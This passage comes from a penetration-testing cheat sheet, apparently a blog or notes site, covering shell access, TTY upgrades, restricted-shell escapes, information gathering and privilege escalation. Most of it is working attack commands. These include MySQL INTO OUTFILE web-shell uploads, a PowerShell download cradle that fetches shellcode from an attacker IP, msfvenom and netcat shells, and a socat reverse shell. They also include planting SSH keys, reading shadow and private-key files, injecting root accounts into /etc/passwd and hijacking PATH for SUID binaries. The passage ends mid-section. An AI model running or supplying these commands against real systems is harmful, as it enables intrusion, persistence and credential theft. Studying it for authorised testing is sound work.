To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). One way to do this is with Xnest (to be run on your system):

::
 
   Xnest :1 -listen tcp

You’ll need to authorize the target to connect to you (command also run on your host):

::

  xhost +targetip

Lynx
^^^^

Obtain an interactive shell through lynx: It is possible to obtain an interactive shell via special LYNXDOWNLOAD URLs. 
This is a big security hole for sites that use lynx "guest accounts" and other public services. More details `LynxShell <http://insecure.org/sploits/lynx.download.html>`_ 

When you start up a lynx client session, you can hit "g" (for Goto) and then enter the following URL:

:: 

  URL to open: LYNXDOWNLOAD://Method=-1/File=/dev/null;/bin/sh;/SugFile=/dev/null

MYSQL
^^^^^

* If we have MYSQL Shell via sqlmap or phpmyadmin, we can use mysql outfile/ dumpfile function to upload a shell.

 :: 

   echo -n "<?php phpinfo(); ?>" | xxd -ps 3c3f70687020706870696e666f28293b203f3e
   select 0x3c3f70687020706870696e666f28293b203f3e into outfile "/var/www/html/blogblog/wp-content/uploads/phpinfo.php"

 or 

 ::
 
  SELECT "<?php passthru($_GET['cmd']); ?>" into dumpfile '/var/www/html/shell.php';

* If you have sql-shell from sqlmap/ phpmyadmin, we can read files by using the load_file function.

 :: 
	
   select load_file('/etc/passwd');

Reverse Shell from Windows
^^^^^^^^^^^^^^^^^^^^^^^^^^

If there's a way, we can execute code from windows, we may try

* Powershell Empire/ Metasploit Web-Delivery Method
* Invoke-Shellcode (from powersploit)

 ::

  Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://YourIPAddress:8000/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost YourIPAddress -Lport 4444 -Force"

* Upload ncat and execute 

MSF Meterpreter ELF
^^^^^^^^^^^^^^^^^^^

::

 msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -o met LHOST=10.10.XX.110 LPORT=4446

Metasploit MSFVenom
^^^^^^^^^^^^^^^^^^^

Ever wondered from where the above shells came from? Maybe try msfvenom and grep for cmd/unix

::

 msfvenom -l payloads | grep "cmd/unix"
 **snip**
    cmd/unix/bind_awk                                   Listen for a connection and spawn a command shell via GNU AWK
    cmd/unix/bind_inetd                                 Listen for a connection and spawn a command shell (persistent)
    cmd/unix/bind_lua                                   Listen for a connection and spawn a command shell via Lua
    cmd/unix/bind_netcat                                Listen for a connection and spawn a command shell via netcat
    cmd/unix/bind_perl                                  Listen for a connection and spawn a command shell via perl
    cmd/unix/interact                                   Interacts with a shell on an established socket connection
    cmd/unix/reverse                                    Creates an interactive shell through two inbound connections
    cmd/unix/reverse_awk                                Creates an interactive shell via GNU AWK
    cmd/unix/reverse_python                             Connect back and create a command shell via Python
    cmd/unix/reverse_python_ssl                         Creates an interactive shell via python, uses SSL, encodes with base64 by design.
    cmd/unix/reverse_r                                  Connect back and create a command shell via R
    cmd/unix/reverse_ruby                               Connect back and create a command shell via Ruby
 **snip**

Now, try to check the payload

::

 msfvenom -p cmd/unix/bind_netcat
 Payload size: 105 bytes
 mkfifo /tmp/cdniov; (nc -l -p 4444 ||nc -l 4444)0</tmp/cdniov | /bin/sh >/tmp/cdniov 2>&1; rm /tmp/cdniov


.. _spawning-a-tty-shell:

Spawning a TTY Shell
--------------------

Once we have reverse shell, we need a full TTY session by using either Python, sh, perl, ruby, lua, IRB. `Spawning a TTY Shell <https://netsec.ws/?p=337>`_ and `Post-Exploitation Without A TTY <http://pentestmonkey.net/blog/post-exploitation-without-a-tty>`_ has provided multiple ways to get a tty shell

Python
^^^^^^

.. code-block :: bash 

  python -c 'import pty; pty.spawn("/bin/sh")'

or

.. code-block :: bash

  python -c 'import pty; pty.spawn("/bin/bash")'

.. code-block :: bash

  python -c 'import os; os.system("/bin/bash")'

sh
^^

.. code-block :: bash

  /bin/sh -i

Perl
^^^^

.. code-block :: bash 

  perl -e 'exec "/bin/sh";'

.. code-block :: bash

  perl: exec "/bin/sh";

Ruby
^^^^

.. code-block :: bash

   ruby: exec "/bin/sh"

Lua
^^^

.. code-block :: bash

   lua: os.execute('/bin/sh')

IRB
^^^
(From within IRB)

.. code-block :: bash

  exec "/bin/sh"

VI
^^

(From within vi)

.. code-block :: bash 

  :!bash

(From within vi)

.. code-block :: bash 

  :set shell=/bin/bash:shell

Also, if we execute

::

  vi ;/bin/bash

Once, we exit vi, we would get shell. Helpful in scenarios where the user is asked to input which file to open.

Nmap
^^^^

(From within nmap)

.. code-block :: bash 

  !sh

Expect
^^^^^^

Using “Expect” To Get A TTY

.. code-block :: bash 

  $ cat sh.exp
  #!/usr/bin/expect
  # Spawn a shell, then allow the user to interact with it.
  # The new shell will have a good enough TTY to run tools like ssh, su and login
  spawn sh
  interact

Sneaky Stealthy SU in (Web) Shells
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Let's say we have a webshell on the server (probably, we would be logged in as a apache user), however, if we have credentials of another user, and we want to login we need a tty shell. We can use a shell terminal trick that relies on Python to turn our non-terminal shell into a terminal shell. 

**Example**

Webshell like

::

 http://IP/shell.php?cmd=id

If we try 

::

 echo password | su -c whoami

Probably will get

::

 standard in must be a tty

The su command would work from a terminal, however, would not take in raw stuff via the shell's Standard Input.
We can use a shell terminal trick that relies on Python to turn our non-terminal shell into a terminal shell

::

 (sleep 1; echo password) | python -c "import pty; pty.spawn(['/bin/su','-c','whoami']);"
 root

The above has been referenced from SANS `Sneaky Stealthy SU in (Web) Shells <https://pen-testing.sans.org/blog/2014/07/08/sneaky-stealthy-su-in-web-shells#>`_

Spawning a Fully Interactive TTYs Shell
---------------------------------------

`Ronnie Flathers <https://twitter.com/ropnop>`_ has already written a great blog on `Upgrading simple shells to fully interactive TTYs <https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>`_ Hence, almost everything is taken from that blog and kept here for completion purposes.

Many times, we will not get a fully interactive shell therefore it will/ have: 

* Difficult to use the text editors like vim
* No tab-complete
* No up arrow history
* No job control

Socat
^^^^^

Socat can be used to pass full TTY's over TCP connections.

On Kali-Machine (Attackers - Probably yours)

::

 socat file:`tty`,raw,echo=0 tcp-listen:4444 

On Victim (launch):

::

 socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

If socat isn't installed, download standalone binaries that can be downloaded from `static binaries <https://github.com/andrew-d/static-binaries>`_ 

Download the correct binary architecture of socat to a writable directory, chmod it, execute

stty
^^^^

Use the methods mentioned in :ref:`spawning-a-tty-shell`

Once bash is running in the PTY, background the shell with Ctrl-Z
While the shell is in the background, examine the current terminal and STTY info so we can force the connected shell to match it

::
 
 echo $TERM
 xterm-256color

::

 stty -a
 speed 38400 baud; rows 59; columns 264; line = 0;
 intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V;   discard = ^O; min = 1; time = 0;
 -parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
 -ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel iutf8
 opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
 isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc

The information needed is the TERM type ("xterm-256color") and the size of the current TTY ("rows 38; columns 116")

With the shell still backgrounded, set the current STTY to type raw and tell it to echo the input characters with the following command:

::

 stty raw -echo 

With a raw stty, input/output will look weird and you won't see the next commands, but as you type they are being processed.

Next foreground the shell with fg. It will re-open the reverse shell but formatting will be off. Finally, reinitialize the terminal with reset.

After the reset the shell should look normal again. The last step is to set the shell, terminal type and stty size to match our current Kali window (from the info gathered above)

::

 $ export SHELL=bash
 $ export TERM=xterm256-color
 $ stty rows 38 columns 116

The end result is a fully interactive TTY with all the features we'd expect (tab-complete, history, job control, etc) all over a netcat connection

ssh-key
^^^^^^^

If we have some user shell or access, probably it would be a good idea to generate a new ssh private-public key pair using ssh-keygen

::

 ssh-keygen 
 Generating public/private rsa key pair.
 Enter file in which to save the key (/home/bitvijays/.ssh/id_rsa): 
 Enter passphrase (empty for no passphrase): 
 Enter same passphrase again: 
 Your identification has been saved in /home/bitvijays/.ssh/id_rsa.
 Your public key has been saved in /home/bitvijays/.ssh/id_rsa.pub.
 The key fingerprint is:
 SHA256:JbdAhAIPl8qm/kCANJcpggeVoZqWnFRvVbxu2u9zc5U bitvijays@Kali-Home
 The key's randomart image is:
 +---[RSA 2048]----+
 |o==*+. +=.       |
 |=o**+ o. .       |
 |=+...+  o +      |
 |=.* .    * .     |
 |oO      S .     .|
 |+        o     E.|
 |..      +       .|
 | ..    . . . o . |
 |  ..      ooo o  |
 +----[SHA256]-----+

Copy/ Append the public part to /home/user/.ssh/authorized_keys

::

 cat /home/bitvijays/.ssh/id_rsa.pub 

 echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+tbCpnhU5qQm6typWI52FCin6NDYP0hmQFfag2kDwMDIS0j1ke/kuxfqfQKlbva9eo6IUaCrjIuAqbsZTsVjyFfjzo/hDKycR1M5/115Jx4q4v48a7BNnuUqi +qzUFjldFzfuTp6XM1n+Y1B6tQJJc9WruOFUNK2EX6pmOIkJ8QPTvMXYaxwol84MRb89V9vHCbfDrbWFhoA6hzeQVtI01ThMpQQqGv5LS+rI0GVlZnT8cUye0uiGZW7ek9DdcTEDtMUv1Y99zivk4FJmQWLzxplP5dUJ1NH5rm6YBH8CoQHLextWc36Ih18xsyzW8qK4Bfl4sOtESHT5/3PlkQHN bitvijays@Kali-Home" >> /home/user/.ssh/authorized_keys

Now, ssh to the box using that user.

::

 ssh user@hostname -i id_rsa

Restricted Shell
----------------

Sometimes, after getting a shell, we figure out that we are in restricted shell. The below has been taken from `Escaping Restricted Linux Shells <https://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells>`_, `Escape from SHELLcatraz <https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells>`_ 

Definition
^^^^^^^^^^
It limits a user's ability and only allows them to perform a subset of system commands. Typically, a combination of some or all of the following restrictions are imposed by a restricted shell:

* Using the 'cd' command to change directories.
* Setting or un-setting certain environment variables (i.e. SHELL, PATH, etc...).
* Specifying command names that contain slashes.
* Specifying a filename containing a slash as an argument to the '.' built-in command.
* Specifying a filename containing a slash as an argument to the '-p' option to the 'hash' built-in command.
* Importing function definitions from the shell environment at startup.
* Parsing the value of SHELLOPTS from the shell environment at startup.
* Redirecting output using the '>', '>|', ", '>&', '&>', and '>>' redirection operators.
* Using the 'exec' built-in to replace the shell with another command.
* Adding or deleting built-in commands with the '-f' and '-d' options to the enable built-in.
* Using the 'enable' built-in command to enable disabled shell built-ins.
* Specifying the '-p' option to the 'command' built-in.
* Turning off restricted mode with 'set +r' or 'set +o restricted 

Real shell implements restricted shells:

* rbash

  ::

   bash -r
   cd
   bash: cd: restricted

* rsh
* rksh

**Getting out of restricted shell**

Reconnaissance
^^^^^^^^^^^^^^

Find out information about the environment.

* Run env to see exported environment variables

* Run 'export -p' to see the exported variables in the shell. This would tell which variables are read-only. Most likely the PATH ($PATH) and SHELL ($SHELL) variables are '-rx', which means we can execute them, but not write to them. If they are writeable, we would be able to escape the restricted shell! 

 * If the SHELL variable is writeable, you can simply set it to your shell of choice (i.e. sh, bash, ksh, etc...). 
 * If the PATH is writeable, then you'll be able to set it to any directory you want. I recommend setting it to one that has commands vulnerable to shell escapes.

* Try basic Unix commands and see what's allowed ls, pwd, cd, env, set, export, vi, cp, mv etc.

Quick Wins
^^^^^^^^^^

* If '/' is allowed in commands just run /bin/sh
* If we can set PATH or SHELL variable
  ::

   export PATH=/bin:/usr/bin:/sbin:$PATH
   export SHELL=/bin/sh

  or if chsh command is present just change the shell to /bin/bash

  ::

   chsh
   password: <password will be asked>
   /bin/bash

* If we can copy files into existing PATH, copy
 
 ::

  cp /bin/sh /current/directory; sh

Taking help of binaries
^^^^^^^^^^^^^^^^^^^^^^^

Some commands let us execute other system commands, often bypassing shell restrictions

* ftp -> !/bin/sh
* gdb -> !/bin/sh
* more/ less/ man -> !/bin/sh
* vi -> :!/bin/sh : Refer `Breaking out of Jail : Restricted Shell <http://airnesstheman.blogspot.in/2011/05/breaking-out-of-jail-restricted-shell.html>`_ and `Restricted Accounts and Vim Tricks in Linux and Unix <http://linuxshellaccount.blogspot.in/2008/05/restricted-accounts-and-vim-tricks-in.html>`_ 
* scp -S /tmp/getMeOut.sh x y : Refer `Breaking out of rbash using scp <http://pentestmonkey.net/blog/rbash-scp>`_ 
* awk 'BEGIN {system("/bin/sh")}'
* find / -name someName -exec /bin/sh \;
* tee

 :: 

  echo "Your evil code" | tee script.sh

* Invoke shell thru scripting language

 * Python

  ::

   python -c 'import os; os.system("/bin/bash")

 * Perl

  ::

   perl -e 'exec "/bin/sh";'

SSHing from outside
^^^^^^^^^^^^^^^^^^^
* Use SSH on your machine to execute commands before the remote shell is loaded:

 ::

  ssh username@IP -t "/bin/sh"

* Start the remote shell without loading "rc" profile (where most of the limitations are often configured)
 
 ::

  ssh username@IP -t "bash --noprofile"


Getting out of rvim
^^^^^^^^^^^^^^^^^^^

Main difference of rvim vs vim is that rvim does not allow escape to shell with previously described techniques and, on top of that, no shell commands at all. Taken from `vimjail <https://ctftime.org/writeup/5784>`_

* To list all installed features it is possible to use ':version' vim command. 

 ::

  :version
  VIM - Vi IMproved 8.0 (2016 Sep 12, compiled Nov 04 2017 04:17:46)
  Included patches: 1-1257
  Modified by pkg-vim-maintainers@lists.alioth.debian.org
  Compiled by pkg-vim-maintainers@lists.alioth.debian.org
  Huge version with GTK2 GUI.  Features included (+) or not (-):
  +acl             +cindent         +cryptv          -ebcdic          +float           +job             +listcmds        +mouse_dec       +multi_byte      +persistent_undo  +rightleft       +syntax          +termresponse    +visual          +X11  
  +arabic          +clientserver    +cscope          +emacs_tags      +folding         +jumplist        +localmap        +mouse_gpm       +multi_lang      +postscript       +ruby            +tag_binary      +textobjects     +visualextra     -xfontset 
  +autocmd         +clipboard       +cursorbind      +eval            -footer          +keymap          +lua             -mouse_jsbterm   -mzscheme        +printer          +scrollbind      +tag_old_static  +timers          +viminfo         +xim
  +balloon_eval    +cmdline_compl   +cursorshape     +ex_extra        +fork()          +lambda          +menu            +mouse_netterm   +netbeans_intg   +profile          +signs           -tag_any_white   +title           +vreplace        +xpm
  +browse          +cmdline_hist    +dialog_con_gui  +extra_search    +gettext         +langmap         +mksession       +mouse_sgr       +num64           -python           +smartindent     +tcl             +toolbar         +wildignore      +xsmp_interact
  ++builtin_terms  +cmdline_info    +diff            +farsi           -hangul_input    +libcall         +modify_fname    -mouse_sysmouse  +packages        +python3          +startuptime     +termguicolors   +user_commands   +wildmenu        +xterm_clipboard
  +byte_offset     +comments        +digraphs        +file_in_path    +iconv           +linebreak       +mouse           +mouse_urxvt     +path_extra      +quickfix         +statusline      +terminal        +vertsplit       +windows         -xterm_save
  +channel         +conceal         +dnd             +find_in_path    +insert_expand   +lispindent      +mouseshape      +mouse_xterm     +perl            +reltime         - sun_workshop    +terminfo        +virtualedit     +writebackup
    system vimrc file: "$VIM/vimrc"


* Examining installed features and figure out which interpreter is installed.

* If python/ python3 has been installed

 ::

  :python3 import pty;pty.spawn("/bin/bash")

Gather information from files
-----------------------------

In case of LFI or unprivileged shell, gathering information could be very useful. Mostly taken from `g0tmi1k Linux Privilege Escalation Blog <https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>`_

Operating System
^^^^^^^^^^^^^^^^
::

  cat /etc/issue
  cat /etc/*-release
    cat /etc/lsb-release      # Debian based
    cat /etc/redhat-release   # Redhat based

/Proc Variables
^^^^^^^^^^^^^^^
::

 /proc/sched_debug	This is usually enabled on newer systems, such as RHEL 6.  It provides information as to what process is running on which cpu.  This can be handy to get a list of processes and their PID number.
 /proc/mounts		Provides a list of mounted file systems.  Can be used to determine where other interesting files might be located
 /proc/net/arp		Shows the ARP table.  This is one way to find out IP addresses for other internal servers.
 /proc/net/route	Shows the routing table information.
 /proc/net/tcp 
 /proc/net/udp  	Provides a list of active connections.  Can be used to determine what ports are listening on the server
 /proc/net/fib_trie	This is used for route caching.  This can also be used to determine local IPs, as well as gain a better understanding of the target's networking structure
 /proc/version	        Shows the kernel version.  This can be used to help determine the OS running and the last time it's been fully updated.

Each process also has its own set of attributes.  If we have the PID number and access to that process, then we can obtain some useful information about it, such as its environmental variables and any command line options that were run.  Sometimes these include passwords.  Linux also has a special proc directory called self which can be used to query information about the current process without having to know it's PID.

::

 /proc/[PID]/cmdline	Lists everything that was used to invoke the process. This sometimes contains useful paths to configuration files as well as usernames and passwords.
 /proc/[PID]/environ	Lists all the environment variables that were set when the process was invoked.  This also sometimes contains useful paths to configuration files as well as usernames and passwords.
 /proc/[PID]/cwd	Points to the current working directory of the process.  This may be useful if you don't know the absolute path to a configuration file.
 /proc/[PID]/fd/[#]	Provides access to the file descriptors being used.  In some cases this can be used to read files that are opened by a process.

The information about Proc variables has been taken from `Directory Traversal, File Inclusion, and The Proc File System <https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/>`_

Environment Variables
^^^^^^^^^^^^^^^^^^^^^

::

 cat /etc/profile
 cat /etc/bashrc
 cat ~/.bash_profile
 cat ~/.bashrc
 cat ~/.bash_logout

Configuration Files
^^^^^^^^^^^^^^^^^^^

* Apache Web Server : Helps in figuring out the DocumentRoot where does your webserver files are?

 ::

   /etc/apache2/apache2.conf
   /etc/apache2/sites-enabled/000-default 

User History
^^^^^^^^^^^^

::

  ~/.bash_history
  ~/.nano_history
  ~/.atftp_history
  ~/.mysql_history
  ~/.php_history
  ~/.viminfo

Private SSH Keys / SSH Configuration
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  ~/.ssh/authorized_keys : specifies the SSH keys that can be used for logging into the user account 
  ~/.ssh/identity.pub
  ~/.ssh/identity
  ~/.ssh/id_rsa.pub
  ~/.ssh/id_rsa
  ~/.ssh/id_dsa.pub
  ~/.ssh/id_dsa
  /etc/ssh/ssh_config  : OpenSSH SSH client configuration files
  /etc/ssh/sshd_config : OpenSSH SSH daemon configuration file


.. _unprivileged-shell-to-privileged-shell:

Unprivileged Shell to Privileged Shell
======================================

Probably, at this point of time, we would have unprivileged shell of user www-data. If you are on Windows, there are particular set of steps. If you are on linux, it would be a good idea to first check privilege escalation techniques from g0tm1lk blog such as if there are any binary executable with SUID bits, if there are any cron jobs running with root permissions. 

If you have become a normal user of which you have a password, it would be a good idea to check sudo -l (for every user! Yes, even for www-data) to check if there are any executables you have permission to run.

Windows Privilege Escalation
----------------------------

If you have a shell/ meterpreter from a windows box, probably, the first thing would be to utilize

SystemInfo
^^^^^^^^^^
Run system info and findout 

* Operating System Version
* Architecture : Whether x86 or x64.
* Hotfix installed

The below system is running x64, Windows Server 2008 R2 with no Hotfixes installed.
::

 systeminfo

 Host Name:                 VICTIM-MACHINE
 OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
 OS Version:                6.1.7600 N/A Build 7600
 OS Manufacturer:           Microsoft Corporation
 OS Configuration:          Standalone Server
 OS Build Type:             Multiprocessor Free
 Registered Owner:          Windows User
 Registered Organization:
 Product ID:                00496-001-0001283-84782
 Original Install Date:     18/3/2017, 7:04:46 ��
 System Boot Time:          7/11/2017, 3:13:00 ��
 System Manufacturer:       VMware, Inc.
 System Model:              VMware Virtual Platform
 System Type:               x64-based PC
 Processor(s):              2 Processor(s) Installed.
                            [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2100 Mhz
                            [02]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2100 Mhz
 BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
 Windows Directory:         C:\Windows
 System Directory:          C:\Windows\system32
 Boot Device:               \Device\HarddiskVolume1
 System Locale:             el;Greek
 Input Locale:              en-us;English (United States)
 Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
 Total Physical Memory:     2.048 MB
 Available Physical Memory: 1.640 MB
 Virtual Memory: Max Size:  4.095 MB
 Virtual Memory: Available: 3.665 MB
 Virtual Memory: In Use:    430 MB
 Page File Location(s):     C:\pagefile.sys
 Domain:                    HTB
 Logon Server:              N/A
 Hotfix(s):                 N/A
 Network Card(s):           1 NIC(s) Installed.
                            [01]: Intel(R) PRO/1000 MT Network Connection
                                  Connection Name: Local Area Connection
                                  DHCP Enabled:    No
                                  IP address(es)
                                  [01]: 10.54.98.9


If there are no Hotfixes installed, we can visit 

::

 C:\Windows\SoftwareDistribution\Download

This directory is the temporary location for WSUS. Updates were downloaded here, doesn't mean were installed. Otherwise, we may visit 

::

 C:\Windows\WindowUpdate.log 

which will inform if any hotfixes are installed.

Metasploit Local Exploit Suggestor
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
Metasploit local_exploit_suggester : The module suggests local meterpreter exploits that can be used. The exploits are suggested based on the architecture and platform that the user has a shell opened as well as the available exploits in meterpreter.

  .. Note :: It is utmost important that the meterpreter should be of the same architecture as your target machine, otherwise local exploits may fail. For example. if you have target as windows 64-bit machine, you should have 64-bit meterpreter.

Sherlock and PowerUp Powershell Script
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* `Sherlock <https://github.com/rasta-mouse/Sherlock>`_ PowerShell script by rastamouse to quickly find missing software patches for local privilege escalation vulnerabilities. If the Metasploit local_exploit_suggester didn't resulted in any exploits. Probably, try Sherlock Powershell script to see if there any vuln which can be exploited.

* `PowerUp <https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc>`_ : PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations.

The above can be executed by 

::

 view-source:10.54.98.X/shell.php?cmd=echo IEX (New-Object Net.WebClient).DownloadString("http://YourIP:8000/Sherlock.ps1"); | powershell -noprofile -

 We execute powershell with noprofile and accept the input from stdin

Windows Exploit Suggestor
^^^^^^^^^^^^^^^^^^^^^^^^^
`Windows Exploit Suggestor <https://github.com/GDSSecurity/Windows-Exploit-Suggester>`_ : This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins. Just copy the systeminfo information from the windows OS and compare the database.

If we are getting the below error on running local exploits of getuid in meterpreter

::

 [-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_sys_config_getuid: Operation failed: Access is denied.

Possibly, migrate into a new process using post/windows/manage/migrate

Windows Kernel Exploits
^^^^^^^^^^^^^^^^^^^^^^^

`Windows Kernel Exploits <https://github.com/SecWiki/windows-kernel-exploits>`_ contains most of the compiled windows exploits. One way of running these is either upload these on victim system and execute. Otherwise, create a smb-server using Impacket

::

 usage: smbserver.py [-h] [-comment COMMENT] [-debug] [-smb2support] shareName sharePath

 This script will launch a SMB Server and add a share specified as an argument. You need to be root in order to bind to port 445. No authentication will be enforced. Example: smbserver.py -comment 'My share' TMP /tmp

 positional arguments:
   shareName         name of the share to add
   sharePath         path of the share to add


Assuming, the current directory contains our compiled exploit, we can

::

 impacket-smbserver <sharename> `pwd`
 Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

 [*] Config file parsed
 [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
 [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
 [*] Config file parsed
 [*] Config file parsed
 [*] Config file parsed

Once, smbserver is up and running, we can execute code like

::

 view-source:VictimIP/shell.php?cmd=\\YourIP\ShareName\ms15-051x64.exe whoami

 *Considering shell.php is our php oneliner to execute commands.


Abusing Token Privileges
^^^^^^^^^^^^^^^^^^^^^^^^

If we have the windows shell or meterpreter, we can type "whoami /priv" or if we have meterpreter, we can type "getprivs"

If we have any of the below privileges, we can possibly utilize `Rotten Potato <https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/>`_ 

::

 SeImpersonatePrivilege
 SeAssignPrimaryPrivilege
 SeTcbPrivilege
 SeBackupPrivilege
 SeRestorePrivilege
 SeCreateTokenPrivilege
 SeLoadDriverPrivilege
 SeTakeOwnershipPrivilege
 SeDebugPrivilege


The above was for the Windows OS and the below is for Linux OS.


Linux Privilege Escalation
--------------------------

Techniques for Linux privilege escalation:

Privilege escalation from g0tm1lk blog
--------------------------------------

Once, we have got the unprivileged shell, it is very important to check the below things

* Are there any binaries with Sticky, suid, guid.
* Are there any world-writable folders, files.
* Are there any world-execuable files.
* Which are the files owned by nobody (No user)
* Which are the files which are owned by a particular user but are not present in their home directory. (Mostly, the users have files and folders in /home directory. However, that's not always the case.)
* What are the processes running on the machines? (ps aux). Remember, If something like knockd is running, we would come to know that Port Knocking is required.
* What are the packages installed? (dpkg -l). Maybe some vulnerable application is installed ready to be exploited (For example: chkroot version 0.49).
* What are the services running? (netstat -ln)
* Check the entries in the crontab!


What "Advanced Linux File Permissions" are used?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Sticky bits, SUID & GUID

::

   find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
   find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
   find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

   find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
   for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

   # find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
    find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
 
Where can written to and executed from?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

A few 'common' places: /tmp, /var/tmp, /dev/shm

::

  find / -writable -type d 2>/dev/null      # world-writeable folders
  find / -perm -222 -type d 2>/dev/null     # world-writeable folders
  find / -perm -o w -type d 2>/dev/null     # world-writeable folders
  find / -perm -o w -type f 2>/dev/null     # world-writeable files

  find / -perm -o x -type d 2>/dev/null     # world-executable folders
  find / -perm -o x -type f 2>/dev/null     # world-executable files

  find / \( -perm -o w -perm -o x \) -type d 2>/dev/null   # world-writeable & executable folders

* If the below files are world writable, we could do privilege escalation.

 * /etc/passwd 

  * Passwords are normally stored in /etc/shadow, which is not readable by users. However, historically, they were stored in the world-readable file /etc/passwd along with all account information. 
  * For backward compatibility, if a password hash is present in the second column in /etc/passwd, it takes precedence over the one in /etc/shadow. 
  * Also, an empty second field in /etc/passwd means that the account has no password, i.e. anybody can log in without a password (used for guest accounts). This is sometimes disabled. 
  * If passwordless accounts are disabled, you can put the hash of a password of your choice. You can use the crypt function to generate password hashes, for example

   ::
    
      perl -le 'print crypt("foo", "aa")' to set the password to foo. 

  * It's possible to gain root access even if you can only append to /etc/passwd and not overwrite the contents. That's because it's possible to have multiple entries for the same user, as long as they have different names — users are identified by their ID, not by their name, and the defining feature of the root account is not its name but the fact that it has user ID 0. So you can create an alternate root account by appending a line that declares an account with another name, a password of your choice and user ID 0

Any "problem" files?
^^^^^^^^^^^^^^^^^^^^

Word-writeable, "nobody" files

::

  find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files
  find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files

Find files/ folder owned by the user
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

After compromising the machine with an unprivileged shell, /home would contains the users present on the system. Also, viewable by checking /etc/passwd. Many times, we do want to see if there are any files owned by those users outside their home directory.

::

  find / -user username 2> /dev/null
  find / -group groupname 2> /dev/null


.. Tip :: Find files by wheel/ adm users or the users in the home directory.

Execution of binary from Relative location than Absolute
--------------------------------------------------------
If we figure out that a suid binary is running with relative locations (for example let's say backjob is running "id" and "scp /tmp/special ron@ton.home")(figured out by running strings on the binary). The problem with this is, that it’s trying to execute a file/script/program on a RELATIVE location (opposed to an ABSOLUTE location like /sbin would be). And we will now exploit this to become root.

so we can create a file in temp:

::

  echo "/bin/sh" >> /tmp/id
  chmod +x /tmp/id

:: 

  www-data@yummy:/tmp$ echo "/bin/sh" >> /tmp/id
  www-data@yummy:/tmp$ export PATH=/tmp:$PATH
  www-data@yummy:/tmp$ which id
  /tmp/id
  www-data@yummy:/tmp$ /opt/backjob
  whoami
  root
  # /usr/bin/id
  uid=0(root) gid=0(root) groups=0(root),33(www-data)

By changing the PATH prior executing the vulnerable suid binary (i.e. the location, where Linux is searching for the relative located file), we force the system to look first into /tmp when searching for “scp” or "id" . So the chain of commands is: 

* /opt/backjob switches user context to root (as it is suid) and tries to run “scp or id”
* Linux searches the filesystem according to its path (here: in /tmp first)
* Our malicious /tmp/scp or /tmp/id gets found and executed as root 
* A new bash opens with root privileges.

If we execute a binary without specifying an absolute paths, it goes in order of your $PATH variable. By default, it's something like:

::

  /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

It is important to see .bash_profile file which contains the $PATH

Symlink Creation
----------------

Multiple time, we would find that a suid binary belonging to another user is authorized to read a particular file. For example Let's say there's a suid binary called readExampleConf which can read a file named example.conf as a suid user. This binary can be tricked into reading any other file by creating a Symlink or a softlink. For example if we want to read /etc/shadow file which can be read by suid user. we can do

::

